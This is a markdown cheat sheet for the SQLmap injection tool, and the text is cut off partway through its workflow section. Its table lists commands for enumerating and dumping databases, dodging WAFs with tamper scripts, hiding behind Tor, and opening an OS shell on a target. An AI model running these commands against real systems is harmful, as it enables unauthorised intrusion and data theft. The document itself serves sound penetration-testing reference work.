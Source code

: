 # SQLmap Cheat Sheet
SQLmap is an automated tool for detecting and exploiting SQL injection vulnerabilities in web applications.

| Command                                   | Description                                                        | Example                                                            | Used For                              |
|-------------------------------------------|--------------------------------------------------------------------|--------------------------------------------------------------------|---------------------------------------|
| `sqlmap -u [URL]`                         | Basic usage, target a URL for SQL injection detection.             | `sqlmap -u "http://example.com/vulnerable.php?id=1"`                | Detecting SQL injection vulnerabilities |
| `sqlmap -u [URL] --data="[POST data]"`     | Use POST data for SQL injection testing.                           | `sqlmap -u "http://example.com/login.php" --data="user=admin&pass=1234"` | Testing POST parameters               |
| `sqlmap -u [URL] --cookie="[cookie]"`      | Specify cookie for authentication or session management.          | `sqlmap -u "http://example.com/dashboard" --cookie="PHPSESSID=abcd1234"` | Using cookies for authenticated tests |
| `sqlmap -u [URL] --dbs`                   | Enumerates databases on the target.                                | `sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs`          | Database enumeration                  |
| `sqlmap -u [URL] --tables -D [database]`   | Enumerates tables in a specific database.                         | `sqlmap -u "http://example.com/vulnerable.php?id=1" --tables -D mydb` | Table enumeration                     |
| `sqlmap -u [URL] --columns -D [database] -T [table]` | Enumerates columns in a specific table.                        | `sqlmap -u "http://example.com/vulnerable.php?id=1" --columns -D mydb -T users` | Column enumeration                    |
| `sqlmap -u [URL] --dump -D [database] -T [table]` | Dumps data from a specific table.                                  | `sqlmap -u "http://example.com/vulnerable.php?id=1" --dump -D mydb -T users` | Data extraction                       |
| `sqlmap -u [URL] --technique=[technique]`  | Specify the injection technique (e.g., boolean-based, time-based). | `sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=BEUST` | Selecting specific attack techniques  |
| `sqlmap -u [URL] --level=[level]`          | Set the level of tests to be performed (1-5, higher = more tests). | `sqlmap -u "http://example.com/vulnerable.php?id=1" --level=5`      | Adjusting test depth                  |
| `sqlmap -u [URL] --risk=[risk]`            | Set the risk level (1-3, higher = more intrusive tests).          | `sqlmap -u "http://example.com/vulnerable.php?id=1" --risk=3`       | Adjusting risk of tests               |
| `sqlmap -u [URL] --threads=[number]`       | Set the number of threads for parallel execution.                  | `sqlmap -u "http://example.com/vulnerable.php?id=1" --threads=10`   | Speeding up the attack                |
| `sqlmap -u [URL] --time-sec=[seconds]`     | Set the delay between requests for time-based injections.         | `sqlmap -u "http://example.com/vulnerable.php?id=1" --time-sec=5`    | Fine-tuning time-based injections     |
| `sqlmap -u [URL] --batch`                  | Runs SQLmap automatically, skipping user interaction.              | `sqlmap -u "http://example.com/vulnerable.php?id=1" --batch`        | Automatic operation without prompts   |
| `sqlmap -u [URL] --tor`                    | Use Tor network for anonymity while testing.                      | `sqlmap -u "http://example.com/vulnerable.php?id=1" --tor`          | Anonymizing the attack                |
| `sqlmap -u [URL] --tamper=[script]`        | Use a tamper script to bypass WAF or other defenses.              | `sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=space2comment` | Bypassing defenses                   |
| `sqlmap -u [URL] --os-shell`               | Attempt to gain an operating system shell on the target machine. | `sqlmap -u "http://example.com/vulnerable.php?id=1" --os-shell`     | OS-level access after SQL injection   |

## Common SQLmap Workflow

1. **Basic SQL Injection Test**
   ```bash
   sqlmap -u "http://example.com/vulnerable.php?id=1"

